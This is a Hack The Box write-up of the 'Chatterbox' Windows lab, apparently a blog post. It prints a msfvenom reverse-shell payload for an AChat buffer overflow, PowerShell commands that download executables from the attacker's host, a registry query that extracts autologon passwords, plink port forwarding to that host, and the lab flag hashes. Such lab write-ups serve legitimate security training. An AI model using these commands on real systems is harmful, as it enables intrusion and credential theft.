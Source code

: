 ```yaml
---
layout: post
title:  "HTB Chatterbox Windows"
description: Tools and Techniques used, msfvenom, windows enumeration, port forwarding
tags: Windows, HTB, enumeration
---
```


# Recon
1. Nmap scan
```shell
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```

# EXPLOITATION
1. We use Achat python exploit "CVE:2015-1578 2015-1577"
2. We create a msfvenom shellcode to use with the Achat BoF with a windows/shell_reverse_tcp
```shell
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d
\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c
\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9
\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8
\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7
\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
3. We set-up nc and we get shell as user Alfred.

**Optional**: You can create a meterpreter shell with msfvenom and upload it to the targer machine. Then use multi/handler to caght it.Ex
```shell
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.34/reverse.exe', 'reverse.exe')"
```

# Privelege Escalation Port-forwarding
1. Doing some priv-esc check we find the password for user Alfred

```shell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```shell
DefaultDomainName    REG_SZ    
DefaultUserName    REG_SZ    Alfred
DefaultPassword    REG_SZ    Welcome1!
```
2. We use the obtanined credentials and try to reuse them with the admin account. To do that we need to set up SSH in our machine
and  open smb port 445 in our target machine using "plink.exe". Then we do a port-forwarding and then a reverse connection. 
First.
```shell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/plink.exe', 'plink.exe')"
``
Then.
```shell
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.34
```
3. We check with netstat to make sure the port 445 is open and connecte to us
4. The we connect reverse using **winexe** and password **"Welcome1!** and we get Admin.
```shell
winexe -U Administrator //127.0.0.1 "cmd.exe
```
|Flags| Hash|
|---|---|
| User | 72290246dfaedb1e3e3ac9d6fb306334|
| Root |a673d1b1fa95c276c5ef2aa13d9dcc7c|
